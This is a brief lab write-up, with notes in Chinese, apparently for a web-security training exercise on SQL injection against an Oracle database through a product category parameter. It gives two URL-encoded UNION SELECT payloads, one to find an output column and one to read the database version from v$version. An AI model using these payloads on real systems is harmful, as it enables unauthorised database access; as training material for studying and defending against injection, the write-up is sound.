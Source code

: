 # Lab: SQL injection attack, querying the database type and version on Oracle

This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

## SQL injection
* 題目說資料庫用的是 `Oracle`，需要注意一下在 `Oracle` 中 `select` 語句必須包含 `from`，如果未指定來源的話，可以用 `dual` 表，內建的，在 hint 裡面也有說
* 注入點在 `category`
* 題目說要拿資料庫的版本，首先要確定哪一個 column 可以輸出在網頁上
```
// 看哪一個 column 可以輸出在網頁上
payload = %27%20union%20select%20NULL,%271%27%20from%20dual%20--%20-
```
```
// 拿版本
payload = %27%20union%20select%20NULL,banner%20FROM%20v$version%20%20--%20-
```
